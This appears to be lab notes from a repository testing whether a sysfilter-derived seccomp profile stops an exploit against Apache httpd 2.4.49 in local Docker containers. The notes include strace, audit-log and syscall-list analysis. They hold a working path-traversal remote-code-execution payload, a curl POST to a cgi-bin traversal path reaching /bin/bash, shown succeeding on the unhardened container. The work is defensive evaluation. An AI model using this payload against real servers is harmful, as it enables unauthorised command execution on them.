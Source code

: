 ## Apache httpd – sysfilter

./build.sh
docker compose up -d

### Preparation

_Extract the syscalls from the binary `httpd` into `/tmp/app.json`_

```
❯ docker exec -it http-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /opt/apache/bin/httpd -o /tmp/app.json"
real	0m10.561s
user	0m10.262s
sys	0m0.264s

❯ docker exec -it http-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /opt/apache/bin/httpd -o /tmp/app.json"
real	0m10.716s
user	0m10.411s
sys	0m0.270s

❯ docker exec -it http-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /opt/apache/bin/httpd -o /tmp/app.json"
real	0m10.486s
user	0m10.200s
sys	0m0.253s
```

_Enforce the allowed syscalls for the binary `httpd`_
`docker exec -it http-sysfilter-seccomp-container bash -c "/sysfilter/enforcement/sysfilter_enforce /opt/apache/bin/httpd /tmp/app.json"`

_Start the two container, one with the applied seccomp profile and one without:_
`docker exec -it http-sysfilter-normal-container "/opt/apache/bin/httpd"`
`docker exec -it http-sysfilter-seccomp-container "/opt/apache/bin/httpd"`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                    COMMAND   CREATED         STATUS         PORTS                                     NAMES
9065cb90a62b   http-sysfilter-seccomp   "bash"    8 minutes ago   Up 8 minutes   0.0.0.0:8080->80/tcp, [::]:8080->80/tcp   http-sysfilter-seccomp-container
4e1fa8b2fe0f   http-sysfilter-normal    "bash"    8 minutes ago   Up 8 minutes   0.0.0.0:8081->80/tcp, [::]:8081->80/tcp   http-sysfilter-normal-container
```

Note: The attacks are executed from the host machine.

_Seccomp_
The attack on the container with the applied seccomp profile on the binary fails.

```
❯ curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; id'  -H "Content-Type: text/plain"
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
* using HTTP/1.x
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.12.1
> Accept: */*
> Content-Type: text/plain
> Content-Length: 39
>
* upload completely sent off: 39 bytes
< HTTP/1.1 503 Service Unavailable
< Date: Tue, 01 Apr 2025 12:54:51 GMT
< Server: Apache/2.4.49 (Unix)
< Content-Length: 299
< Connection: close
< Content-Type: text/html; charset=iso-8859-1
<
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>503 Service Unavailable</title>
</head><body>
<h1>Service Unavailable</h1>
<p>The server is temporarily unable to service your
request due to maintenance downtime or capacity
problems. Please try again later.</p>
</body></html>
* shutting down connection #0
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
❯ curl -v 'http://localhost:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; id'  -H "Content-Type: text/plain"
* Host localhost:8081 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8081...
* Connected to localhost (::1) port 8081
* using HTTP/1.x
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
> Host: localhost:8081
> User-Agent: curl/8.12.1
> Accept: */*
> Content-Type: text/plain
> Content-Length: 39
>
* upload completely sent off: 39 bytes
< HTTP/1.1 200 OK
< Date: Tue, 01 Apr 2025 12:55:19 GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
<
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host localhost left intact
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the container with the command `strace -f /opt/apache/bin/httpd` we are able to see that just before the process with the pid `1396` was killed with the signal `SIGSYS`, the system call `umask` was executed.

```

[pid  1370] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_DUMPED, si_pid=1395, si_uid=0, si_status=SIGSYS, si_utime=0, si_stime=0} ---
[pid  1370] select(0, NULL, NULL, NULL, {tv_sec=0, tv_usec=905251}) = 0 (Timeout)
[pid  1370] wait4(-1, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGSYS && WCOREDUMP(s)}], WNOHANG|WSTOPPED, NULL) = 1395
[pid  1370] times({tms_utime=0, tms_stime=1, tms_cutime=0, tms_cstime=2}) = 432003466
[pid  1370] getpid()                    = 1370
[pid  1370] write(2, "[Tue Apr 01 13:54:57.103092 2025"..., 170) = 170
[pid  1370] kill(1395, SIGHUP)          = -1 ESRCH (No such process)
[pid  1370] unlink("/opt/apache/logs/cgisock.1370") = -1 ENOENT (No such file or directory)
[pid  1370] getpid()                    = 1370
[pid  1370] write(2, "[Tue Apr 01 13:54:57.103234 2025"..., 124) = 124
[pid  1370] clone(strace: Process 1396 attached
child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7547097e55d0) = 1396
[pid  1396] set_robust_list(0x7547097e55e0, 24) = 0
[pid  1370] wait4(-1, 0x7ffd3bdc1e0c, WNOHANG|WSTOPPED, NULL) = 0
[pid  1370] times( <unfinished ...>
[pid  1396] mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0 <unfinished ...>
[pid  1370] <... times resumed> {tms_utime=0, tms_stime=1, tms_cutime=0, tms_cstime=2}) = 432003466
[pid  1396] <... mmap resumed> )        = 0x75470977b000
[pid  1370] select(0, NULL, NULL, NULL, {tv_sec=1, tv_usec=0} <unfinished ...>
[pid  1396] rt_sigaction(SIGCHLD, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER|SA_INTERRUPT, sa_restorer=0x754708aec980}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
[pid  1396] rt_sigaction(SIGHUP, {sa_handler=0x75470560a368, sa_mask=[], sa_flags=SA_RESTORER|SA_INTERRUPT, sa_restorer=0x754708aec980}, {sa_handler=0x61b0e04a833d, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x754708aec980}, 8) = 0
[pid  1396] close(3)                    = 0
[pid  1396] mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x754709779000
[pid  1396] socket(AF_UNIX, SOCK_STREAM, 0) = 3
[pid  1396] umask(077)                  = 0137
[pid  1396] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 95 was indeed blocked by seccomp

```
❯ sudo ausearch -m seccomp --start today
time->Thu Apr  3 11:33:18 2025
type=SECCOMP msg=audit(1743672798.369:1358): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27571 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:19 2025
type=SECCOMP msg=audit(1743672799.370:1368): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27598 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:20 2025
type=SECCOMP msg=audit(1743672800.371:1378): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27608 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:21 2025
type=SECCOMP msg=audit(1743672801.373:1388): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27616 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:22 2025
type=SECCOMP msg=audit(1743672802.374:1398): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27624 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:23 2025
type=SECCOMP msg=audit(1743672803.376:1408): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27635 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
```

We verify that the system call number `95` maps to `umask` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 95
95	umask
```

The last thing we check is, if the system call number `95` was in the applied seccomp profile. The file `/tmp/app.json` shows no presence:

```
[0,1,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,19,20,21,22,23,24,25,28,29,30,31,32,33,34,35,39,40,41,42,43,44,45,46,47,48,49,50,51,52,54,56,58,59,60,61,62,63,64,65,66,67,72,73,78,79,80,82,83,86,87,90,93,96,99,100,102,104,105,106,107,108,111,112,113,114,115,116,117,119,121,128,137,143,144,145,146,147,186,201,202,203,218,228,229,231,232,233,234,257,262,273,288,291,292,302,307]
```

### NOTES

- it was not tested, if it was possible to modify the exploit to bypass the usage of the syscall 95 (umask)
- TODO: maybe try more commands

